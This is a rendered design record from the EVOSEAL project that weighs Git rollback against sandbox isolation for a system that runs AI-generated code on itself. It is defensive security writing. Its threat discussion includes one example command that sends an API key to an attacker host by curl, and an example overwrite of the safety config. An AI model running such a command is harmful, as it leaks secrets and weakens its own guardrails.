

repository: SHA888/EVOSEAL · page: adr/0001-isolation-strategy/index.html · generator: mkdocs

# ADR 0001 — Isolation strategy for self-modification: rollback vs sandbox

**Status:** Accepted (research-stage) — **Tier 2 trigger #1 fired 2026-09-03; see Amendment below**
**Date:** 2026-06-05
**Deciders:** Project lead
**Depends on:** [`threat_model.md`](../safety/threat_model.md) (Plans.md 2.1)
**Drives:** Plans.md 2.4 (adversarial tests validate the chosen boundary), and the
follow-on tasks enumerated in Section 6.

---

## 1. Context

EVOSEAL applies generated code variants back to its own codebase and executes them.
The threat model (2.1) separated two distinct safety concerns:

- **Correctness containment** — a *well-intentioned but wrong* edit must not degrade or
  corrupt the system. **Already handled** by the Git/checkpoint rollback layer, which the
  threat model rated PROTECTED (rollback target validation, checkpoint integrity, Git
  history preservation).
- **Execution containment** — a *malformed or runaway* generated artifact must not damage
  the host, exfiltrate secrets, or consume unbounded resources. **Largely open**; the
  threat model rated the relevant surfaces UNPROTECTED (no edit-scope allowlist, test
  subprocess inherits full env/network/secrets, no resource limits) and PARTIAL (no hard
  iteration cap, per-test timeout only).

The decision before us is framed in Plans.md as "sandbox isolation vs Git rollback." The
first finding of this ADR is that **this framing is a false dichotomy**: rollback and
sandboxing solve *different* problems (recovery vs containment). The real decision is
**how much execution containment a research-stage, single-operator, trusted-model-provider
system needs, and at what cost.**

---

## 2. Decision drivers

1. **Trust model (current).** Single operator, single host, *trusted* model provider. The
   threat model explicitly puts "deliberately hostile LLM crafting an exploit" and
   "multi-tenant isolation" OUT OF SCOPE. Generation is assumed honest-but-fallible.
2. **Cost sensitivity.** EVOSEAL already runs inside a Docker container in production
   (`docker-compose.evoseal.yml`). Per-variant container isolation would mean
   docker-in-docker or a container-spawning orchestration layer — high overhead
   (hundreds of ms + image/mount management per variant) and high complexity.
3. **Cheap mitigations exist — but they live in two different time windows.** Several
   UNPROTECTED items can be closed at low cost without a full container. **Critically, two
   distinct windows must both be guarded** (this is the failure mode an earlier draft of
   this ADR missed):
   - **Edit-application time (T1):** when a generated edit is written to the source tree. A
     path allowlist checked here blocks an edit whose *target* is forbidden
     (`configs/safety.yaml`, CI, `.env`).
   - **Test-execution time (T2):** when the variant's tests run as a subprocess. The test
     code itself runs with full filesystem/network access and can write to a forbidden path
     or exfiltrate secrets *regardless of the T1 allowlist*. A variant that passes the T1
     allowlist can still, inside its test body, do `open("configs/safety.yaml","w")…` or
     `curl attacker.com -d "$ANTHROPIC_API_KEY"`.

   The allowlist alone is therefore **necessary but not sufficient**. T2 requires a different
   class of guard: a scrubbed/network-restricted test environment, read-only mounts of
   critical files, an unprivileged execution user, and resource limits. Both windows are in
   scope for Tier 1; conflating them (guarding only T1) would be security theater.
4. **Honesty over theater.** The project is research-stage and positions itself as such.
   Adopting heavyweight isolation we don't operationally need would be security theater;
   leaving cheap, real gaps open would be negligent. The right answer closes the cheap real
   gaps and defers the expensive ones behind an explicit trigger.

---

## 3. Options considered

### Option A — Full container/VM isolation now

Execute every generated variant (and its tests) inside a fresh, network-disabled,
resource-capped container with no access to host secrets; extract only the result.

- **Pros:** True execution containment. Closes every UNPROTECTED item at once (network
  egress, arbitrary writes, secret exposure, unbounded CPU/memory).
- **Cons:** High runtime cost (per-variant container spawn) and high complexity
  (docker-in-docker from an already-containerized loop, mount/result plumbing, image
  lifecycle). Operationally requires a container runtime on every host. **Over-built for a
  trusted-provider, single-operator research system** — it defends primarily against an
  adversarial-generation threat that the threat model declares out of scope.

### Option B — Keep Git/checkpoint rollback only; change nothing

- **Pros:** Zero cost; already works for correctness containment.
- **Cons:** Leaves real, cheap-to-close gaps open. A buggy variant can still rewrite
  `configs/safety.yaml` (its own guardrails), read `.env` secrets, or call the network.
  **Indefensible when the fixes are nearly free.**
